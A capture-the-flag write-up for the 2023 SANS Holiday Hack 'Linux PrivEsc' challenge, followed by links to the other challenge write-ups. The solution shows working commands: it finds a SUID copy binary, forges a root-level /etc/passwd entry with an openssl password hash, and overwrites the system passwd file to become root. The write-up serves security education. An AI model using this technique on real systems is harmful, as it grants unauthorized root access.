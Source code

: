 # Writeup for The 2023 SANS Holiday Hack Challenge: A Holiday Odyssey \| Featuring 6: Geese A-Lei'ing!
## Linux PrivEsc
Difficulty: :christmas_tree::christmas_tree::christmas_tree:    
Rosemold is in Ostrich Saloon on the Island of Misfit Toys. Give her a hand with escalation for a tip about hidden islands.

### Hints
#### Linux Privilege Escalation Techniques
*From: Rose Mold*  
There's [various ways](https://payatu.com/blog/a-guide-to-linux-privilege-escalation/) to escalate privileges on a Linux system.
#### Linux Command Injection
*From: Rose Mold*  
Use the privileged binary to overwriting a file to escalate privileges could be a solution, but there's an easier method if you pass it a crafty argument.

### Solution
Knowing that the challenge is related to Linux Privilege Escalation, a common reconnaissance step is to list SUID executables, which in this case highlights an uncommon one called simplecopy:
```bash
elf@72cacccd1fe6:~$ find / -type f -perm -04000 -ls 2>/dev/null
  1312417     84 -rwsr-xr-x   1 root     root        85064 Nov 29  2022 /usr/bin/chfn
  1312423     52 -rwsr-xr-x   1 root     root        53040 Nov 29  2022 /usr/bin/chsh
  1312541     56 -rwsr-xr-x   1 root     root        55528 May 30  2023 /usr/bin/mount
  1312546     44 -rwsr-xr-x   1 root     root        44784 Nov 29  2022 /usr/bin/newgrp
  1312620     68 -rwsr-xr-x   1 root     root        67816 May 30  2023 /usr/bin/su
  1312484     88 -rwsr-xr-x   1 root     root        88464 Nov 29  2022 /usr/bin/gpasswd
  1312645     40 -rwsr-xr-x   1 root     root        39144 May 30  2023 /usr/bin/umount
  1312557     68 -rwsr-xr-x   1 root     root        68208 Nov 29  2022 /usr/bin/passwd
  1457015     20 -rwsr-xr-x   1 root     root        16952 Dec  2 22:17 /usr/bin/simplecopy
```
The `simplecopy` executable looks like a standard `cp` command, but eventually allowing to overwrite root-owned files. One escalation path would be to overwrite `/etc/passwd`, adding a user with root privileges for which the attacker knows all credentials. First thing is to generate the passwd content:
```bash
thedead@dellian:~/hhc2023/Linux PrivEsc$ openssl passwd -1 -salt kringle con2023
$1$kringle$M.uL5k/EEbyamRF6aMNJz/
```
Then add the new user `breakstuff` it to the `/etc/passwd` file:
```bash
elf@72cacccd1fe6:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
# Output removed to shorten report
elf:x:1000:1000::/home/elf:/bin/sh
elf@72cacccd1fe6:~$ cp /etc/passwd passwd_tamper
elf@72cacccd1fe6:~$ echo 'breakstuff:$1$kringle$M.uL5k/EEbyamRF6aMNJz/:0:0:root:/root:/bin/bash' >> passwd_tamper
elf@72cacccd1fe6:~$ /usr/bin/simplecopy passwd_tamper /etc/passwd
```
Lastly login as `breakstuff` to gain root privileges and... `runmetoanswer`!
```bash
elf@72cacccd1fe6:~$ su breakstuff
Password:
root@72cacccd1fe6:/home/elf# cd
root@72cacccd1fe6:~# ls
runmetoanswer
root@b5bd66274d00:~# ./runmetoanswer
Who delivers Christmas presents?

> santa
Your answer: santa

Checking....
Your answer is correct!
```

---
## [Faster Lock Combination](/08%20-%20Faster%20Lock%20Combination/README.md)
## [Game Cartridges: Vol 1](/09%20-%20Game%20Cartridges%3A%20Vol%201/README.md)
## [Game Cartridges: Vol 2](/10%20-%20Game%20Cartridges%3A%20Vol%202/README.md)
## [Game Cartridges: Vol 3](/11%20-%20Game%20Cartridges%3A%20Vol%203/README.md)
## [Na'an](/12%20-%20Na%27an/README.md)
## [KQL Kraken Hunt](/13%20-%20KQL%20Kraken%20Hunt/README.md)
## [Phish Detection Agency](/14%20-%20Phish%20Detection%20Agency/README.md)
## [Hashcat](/15%20-%20Hashcat/README.md)
## [Elf Hunt](/16%20-%20Elf%20Hunt/README.md)
## [Certificate SSHenanigans](/17%20-%20Certificate%20SSHenanigans/README.md)
## [The Captain's Comms](/18%20-%20The%20Captain%27s%20Comms/README.md)
## [Active Directory](/19%20-%20Active%20Directory/README.md)
## [Space Island Door Access Speaker](/20%20-%20Space%20Island%20Door%20Access%20Speaker/README.md)
## [Camera Access](/21%20-%20Camera%20Access/README.md)
## [Missile Diversion](/22%20-%20Missile%20Diversion/README.md)
## [BONUS! Fishing Guide](/23%20-%20BONUS%21%20Fishing%20Guide/README.md)
## [BONUS! Fishing Mastery](/24%20-%20BONUS%21%20Fishing%20Mastery/README.md)
## [Conclusions](/README.md#conclusions)
---
## [thedead@dellian:~$ whoami](/README.md#thedeaddellian-whoami)
## [Holiday Hack Orientation](/01%20-%20Holiday%20Hack%20Orientation/README.md)
## [Snowball Fight](/02%20-%20Snowball%20Fight/README.md)
## [Linux 101](/03%20-%20Linux%20101/README.md)
## [Reportinator](/04%20-%20Reportinator/README.md)
## [Azure 101](/05%20-%20Azure%20101/README.md)
## [Luggage Lock](/06%20-%20Luggage%20Lock/README.md)